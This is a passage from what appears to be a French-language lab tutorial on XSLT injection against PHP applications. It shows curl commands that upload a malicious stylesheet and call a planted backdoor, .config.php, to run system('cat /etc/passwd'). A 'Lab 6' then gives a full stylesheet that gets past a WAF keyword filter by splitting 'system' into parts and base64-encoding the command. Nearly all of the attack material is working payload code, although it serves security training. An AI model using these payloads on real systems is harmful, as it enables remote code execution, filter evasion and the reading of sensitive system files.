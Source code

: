 ```xml
</xsl:stylesheet>
```

**Étape 2 : Upload les fichiers**

```bash
curl -F "xml=@report.xml" -F "xsl=@report.xsl" http://target.com/upload
```

**Étape 3 : Accéder au backdoor**

```bash
curl -X POST http://target.com/uploads/.config.php \
  -d "x=system('cat /etc/passwd');"
```

***

#### 🧪 Lab 6 : Bypass WAF avec encodage

**Scénario :** WAF bloque les mots-clés `system`, `exec`, `eval`

**Technique : Utiliser des variables et concaténation**

```xml
<?xml version="1.0" encoding="UTF-8"?>
<xsl:stylesheet version="1.0"
  xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
  xmlns:php="http://php.net/xsl">
  
  <xsl:template match="/">
    <!-- Construire la fonction dynamiquement -->
    <xsl:variable name="func1">sys</xsl:variable>
    <xsl:variable name="func2">tem</xsl:variable>
    <xsl:variable name="function" select="concat($func1, $func2)"/>
    
    <!-- Encoder la commande en base64 -->
    <xsl:variable name="cmd_b64">d2hvYW1p</xsl:variable> <!-- "whoami" en base64 -->
    <xsl:variable name="decode">base64_decode</xsl:variable>
    
    <!-- Exécution obfusquée -->
    <xsl:variable name="result" select="php:function(
      'call_user_func',
      $function,
      php:function($decode, $cmd_b64)
    )"/>
    
    <output><xsl:value-of select="$result"/></output>
  </xsl:template>
</xsl:stylesheet>
```

**Autres techniques de bypass :**

1. **Utiliser des commentaires XML**

